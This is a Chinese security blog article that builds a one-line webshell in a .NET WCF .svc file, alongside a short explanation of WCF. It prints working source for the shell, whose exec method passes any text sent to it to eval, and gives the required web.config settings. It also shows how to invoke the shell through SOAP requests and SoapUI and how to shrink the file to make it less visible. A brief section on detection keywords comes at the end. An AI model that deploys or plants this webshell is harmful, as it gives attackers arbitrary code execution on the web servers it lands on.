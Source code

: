 探索基于.NET下实现一句话木马之SVC篇
===================================

**Ivan\@360云影实验室**

**2018年07月21日**

0x01 前言
=========

本文是探索.NET三驾马车实现一句话木马的完结篇，如果前两篇没有看的同学可以浏览安全客地址（ashx一句话
*https://www.anquanke.com/post/id/151960* 、 asmx一句话
*https://www.anquanke.com/post/id/152238*）或者云影实验室公众号的历史消息，至于这三篇文章包含的代码片段已经同步到笔者的[github](https://github.com/Ivan1ee)上，如果有需求请自取。
那么闲话少叙，回归正题。SVC是 .NET
WCF程序的扩展名至于有什么作用那还得先谈谈WCF。

0x02 简介和原理
===============

WCF (Windows Communication Foundation)
是微软为构建面向服务的应用程序所提供的统一编程模型，能够解决不同应用程序域，不同平台之间的通信问题。WCF统一了多重分布式技术：Webservice、.NetRemoting、.Net企业服务、微软的消息队列（MSMQ），在WCF的结构中有下面几个概念：

1.  契约（ServiceContract）:
    契约是属于一个服务公开的公共接口，定义了服务端公开的服务方法、使用的传输协议、可访问的地址以及传输的消息格式等等，简单的说契约的作用就是告诉我们能干什么；

2.  地址（Address）:
    在WCF框架中，每个服务都具有唯一的地址，其他服务或者客户端通过这个地址来访问到这个服务；

3.  绑定（Binding）:
    定义了服务与外部通信的方式。它由一组称为绑定元素的元素而构成，这些元素组合在一起形成通信基础结构；

4.  终结点（EndPoint）:
    终结点是用来发送或接收消息的，一个终结点由三个要素组成，分别是：地址、绑定和契约；

对于本文来说只需要掌握契约的使用即可，下面通过一个简单的demo来演示

| using System; using System.ServiceModel; namespace test { [ServiceContract] public interface IService1 { [OperationContract] string DoWork(); } public class TestService : IService1 { public string DoWork() { return DateTime.Now.ToString(); } } } |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


上面的代码中[ServiceContract]
是接口Iservice1声明的特性，表示这个是一个契约；[OperationContract]
在接口方法DoWork上声明表示该方法是一个对外的服务，远程客户端能够调用到这个方法；定义TestService类去实现接口，并且实现接口里的DoWork方法，方法体内返回当前的日期时间；简要的说明后通过Visual
Studio调试如下：

![](media/99f54ba2cec6d04a29123ff2c7b35243.png)

点击WCF测试客户端右侧 “ 调用“
成功返回了当前的时间结果，这就是一个简单的WCF程序的定义和调用。

0x03 SVC小马的实现 
===================

通常用IDE生成的WCF文件由三部分组成，如果要实现WCF的小马，需要将三部分整合到一个文件中，扩展名是svc。新建WCF的时候三个文件默认名分别为Service1.svc
、Service1.svc.cs 、IService.cs
，整合代码分两步走，第一步先将接口文件IService.cs里的代码块放入Service.svc.cs文件中；第二步将Service1.svc.cs文件和Service1.svc合并；
最终三块代码整合一起，再加上实现了创建aspx马儿和CMD执行命令的功能，俨然诞生了一个WCF的小马，代码如下：

![](media/9ca97f224fb02f58b79921c6c0869f4e.png)

输入ver命令，返回执行结果。

![](media/d5ca0986c584090adbab22da0f07cea2.png)

把文件部署到IIS7下然后访问 <http://IP/service2.svc?singleWsdl> ，

![](media/c95f1b32dcf7f0d54789c917cf8df36d.png)

看到这段wsdl中包含了定义的cmdShell方法，还有对应返回的webShellResponse这个xml元素节点，将来命令执行的结果全部位于webShellResult节点之间，若想可视化的
操作还需要借助SoapUI这款工具来实现调用，工具下载地址网上有很多，笔者下载的是5.2.1版本，

安装新建项目后选择添加 ”Add WSDL“

![](media/2ffc0e5dbf48b056bb5538c1db206151.png)

点击OK后可见左侧多出了代码里定义的两个方法，点击节点下的Request
按钮就可以发送请求测试了。

![](media/c0cd0d0d598d60e2193c7908f57758f4.png)

到此虽然小马已经实现，但不是笔者的目标，笔者期望的还是随便传入一句话就可以到达任意执行的目的，所以还得继续往下转化。

0x04 一句话的实现 
==================

根据C\#版本的小马加上之前两篇文章中利用Jscript.Net的语法就可以很容易写出一句话小马服务端，查看C\#中
ServiceContract元数据可以看出本质上就是ServiceContractAttribute，OperationContract对应的是
OperationContractAttribute。如下图

![](media/c0119300c80f821423b4fb75e2e88254.png)

![](media/d9d7b05355ea2131e1622bf87ae15f52.png)

在Jscript.Net中实现这两个功能的分类是WebMethodAttribute类和ScriptMethodAttribute类，最终写出一句话木马服务端代码：

| \<%\@ ServiceHost Language="JScript" Debug="true" Service="svcLessSpy" %\> import System; import System.Web; import System.IO; import System.ServiceModel; import System.Text; ServiceContractAttribute public class svcLessSpy { OperationContractAttribute public function exec(text : String) : String { return eval(text); } } |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


打开浏览器输入 DateTime.Now.ToString() 成功打印出当前时间

![](media/e23acd143ec0221c7cada34f3c00c08a.png)

其实请求的数据是一条SOAP消息，也是一个普通的XML文档，但必须要包含Envelope
命名空间、不能包含DTD引用和XML处理指令；

![](media/9f002aae6cafc4f8474a1ceae2479de4.png)

Envelope元素是SOAP消息的根元素，它的存在就可认为这个XML是一个SOAP消息、Body元素包含准备传送到消息最终端点的数据，上面的tem:exec和tem:text元素是应用程序专用的元素,并不是标准SOAP的一部分，发送HTTP请求的时候只需修改tem:Ivan就可以实现任意代码执行，至此SVC版本的一句话小马也已经实现。这里还需要注意一点，web.config里必须要配置

| \<system.serviceModel\> \<behaviors\> \<serviceBehaviors\> \<behavior\> \<serviceMetadata httpGetEnabled="true"/\> \</behavior\> \</serviceBehaviors\> \</behaviors\> \<serviceHostingEnvironment multipleSiteBindingsEnabled="true" /\> \</system.serviceModel\> |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


其中最关键的当属 httpGetEnabled = true
，如果不配置这个选项浏览的时候会看到如下的提示

![](media/42768123e489a9ef4d6540bc45d213d9.png)

好在遇到上述配置的概率不大，因开发环境下Visual
Studio会自动添加这个选项到配置文件中去，开发人员在部署的时候基于习惯会拷贝到生成环境下，所以大概率支持HTTP请求。可惜的是菜刀暂时不支持SOAP消息返回的数据格式，笔者考虑的解决方案重写客户端来支持SOAP消息返回；还有就是基于优化考虑将svcLessSpy.svc进一步压缩体积后只有339个字节。

![](media/3bc60df453938498ef13c69413302a4e.png)

0x05 防御措施
=============

1.  对于Web应用来说，尽量保证代码的安全性；

2.  对于IDS规则层面来说，上传的时候可以加入OperationContractAttribute、ServiceContractAttribute、eval等关键词的检测

0x06 小结
=========

1.  Svc大有替代asmx的趋势，也是微软未来主推的服务，相信会有越来越多的.NET应用程序支持WCF，svc一句话木马被攻击者恶意利用的概率也会越来越多;

2.  目前中国菜刀还不支持svc扩展，需要改进或者有条件的可以开发一款属于svc和asmx一句话木马专属定制的工具；

3.  文章的代码片段请参考 <https://github.com/Ivan1ee> ;

0x07 参考链接
=============

<https://docs.microsoft.com/en-us/dotnet/framework/wcf/getting-started-tutorial>

<https://www.cnblogs.com/oec2003/archive/2010/07/21/1782324.html>
